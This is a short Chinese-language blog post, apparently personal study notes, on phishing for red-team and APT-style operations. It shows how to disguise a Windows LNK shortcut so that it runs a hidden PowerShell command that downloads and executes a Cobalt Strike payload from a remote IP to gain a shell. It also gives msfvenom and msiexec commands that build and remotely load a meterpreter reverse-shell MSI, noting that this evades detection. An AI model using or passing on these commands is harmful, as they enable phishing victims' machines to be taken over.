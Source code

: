 ```yaml
---
layout:     post
title:      钓鱼
subtitle:   学习笔记
date:       2021-3-21
author:     YY——阳阳
header-img: img/post/1.jpg
catalog: true
tags:
    - 笔记
    - 钓鱼
---
```


**在大型企业边界安全做的越来越好的情况下，不管是 APT 攻击还是红蓝对抗演练，钓鱼鱼叉和水坑攻击被越来越多的应用。**

**钓鱼往往需要免杀技术的支撑，但本章只讲述钓鱼和些许免杀技术，免杀系列学习在后续讲解。**

## 一、钓鱼小技巧

#### 1.1 LNK 快捷方式

lnk文件是用于指向其他文件的一种文件。这些文件通常称为快捷方式文件，通常它以快捷方式放在硬盘上，以方便使用者快速的调用。
 lnk钓鱼主要将图标伪装成正常图标，但是目标会执行shell命令。

cs演示：

![](https://s3.ax1x.com/2021/01/10/slGMeU.png)

![](https://s3.ax1x.com/2021/01/10/slGNy6.png)

得到

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.2.158:80/a'))"
```

然后新建快捷方式，将上述语句填入

[![slJmhd.png](https://s3.ax1x.com/2021/01/10/slJmhd.png)](https://imgchr.com/i/slJmhd)

下一步，然后自己命名一下，点击完成。

当受害者双击之后就会自动执行我们的恶意payload,从目标网站下载并执行。

最终被得到 shell。

[![slY12R.md.png](https://s3.ax1x.com/2021/01/10/slY12R.md.png)](https://imgchr.com/i/slY12R)

**也可以使用msiexec.exe，系统进程，是Windows Installer的一部分,利用此进程来加载我们shellcode可以达到一定的规避作用。**

```cmd
msfvenom -p windows/meterpreter/reverse_tcp lhost=vpsip lport=1234 -f msi > shell.txt

c:\windows\system32\msiexec.exe /q /i http://xxx/shell.txt
```
